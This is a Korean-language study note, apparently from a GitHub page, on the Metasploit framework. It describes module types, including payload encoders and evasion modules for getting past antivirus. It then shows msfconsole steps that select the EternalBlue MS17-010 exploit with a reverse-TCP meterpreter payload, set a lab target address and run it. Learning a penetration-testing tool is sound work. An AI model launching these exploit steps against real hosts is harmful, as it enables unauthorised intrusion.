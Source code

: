 # Metasploit🧰

정보수집, 익스플로잇, Post-익스플로잇까지 모든 공격단계에서 활용할 수 있는 공격 Framework 

<br>

### Auxiliary

익스를 하는데 도움을 주는 스캐닝, 크롤러, 퍼저같은 지원 모듈 카테고리 

<br>

### Encoder

**시그니처 기반의 안티 바이러스 솔루션을 우회**하기 위해 페이로드를 인코딩할 수 있는 모듈 카테고리 

<br>

### evasion Module

특정 안티 바이너스 솔루션을 우회하기 위한 카테고리

인코더는 페이로드 패턴 변경 / 이건 특정 보안 솔루션을 우회 

<br>

### Exploit

특정 취약점을 Exploit하는 모듈 

<br>

### NOP

CPU별 NOP Code 모듈 ⇒ 더미데이터 

<br>

### Payload

타겟 시스템에서 실행되는 코드들 

- **Single Payload** : 단독으로 실행 가능.
- **Staged Payload** : stager코드와 stage코드로 구성.
    - `Stager` : Metasploit과 타겟시스템 사이 연결 담당. 침투
    - `Stage` : Stager에 의해 다운로드 됨. 실제로 실행되는 페이로드

<br>

### Post

쉘 획득 후 진행되는 Post-Exploit 단계에서 사용되는 공격 모듈

<br>


# Metasploit 사용🖥️

```bash
#메타스플로잇을 CLI로 실행 

$ msfconsole 
```

<br>

## 명령어

`search [Keyword]` : 모듈 검색 

```bash
msf6 > search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption                                                       
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce                                                                                    
```

<br>

`use [Module Path]` : 모듈 사용 

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

<br>

(모듈 use 후) `info` : 자세한 설명 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: x64
 Privileged: Yes
  ...
```

<br>

(모듈 use 후) `options` : 이 모듈에서 설정할 수 있는 옵션들

 **Required  값이 yes인 옵션은 필수임** 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  **Required**  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/u
                                             sing-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. O
                                             nly affects Windows Server 2008 R2, Windows 7, Windows Emb
                                             edded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only
                                             affects Windows Server 2008 R2, Windows 7, Windows Embedde
                                             d Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Windows Embedded Standard
                                              7 target machines.
```

<br>

(모듈 use 후)  `set [Option] [Value]`

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.25.184
rhost => 10.10.25.184

msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.25.184     yes       The target host(s), see https://docs.metasploit.com/docs/u
                                             sing-metasploit/basics/using-metasploit.html
   ...
```

<br>

`run` or `exploit` : 실행. 두 명령어 차이는 없음 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on ...:4444 
[*] ...:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] ...:445   - Host does NOT appear vulnerable.
[*] ...:445   - Scanned 1 of 1 hosts (100% complete)
[-] ...:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.
```

<br>

# Metasploit Module 제작🪛

🔗[Metasploit Module Template](https://docs.metasploit.com/docs/development/developing-modules/guides/get-started-writing-an-exploit.html#template)

필수 내용은 아래와 같음 

```python
class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Module name',
        'Description' => %q{
          Say something that the user might need to know
        },
        'License' => MSF_LICENSE,
        'Author' => [ 'Name' ],
      )
    )
  end

  def run
    # Main function (루비 언어 사용)
  end

end
```

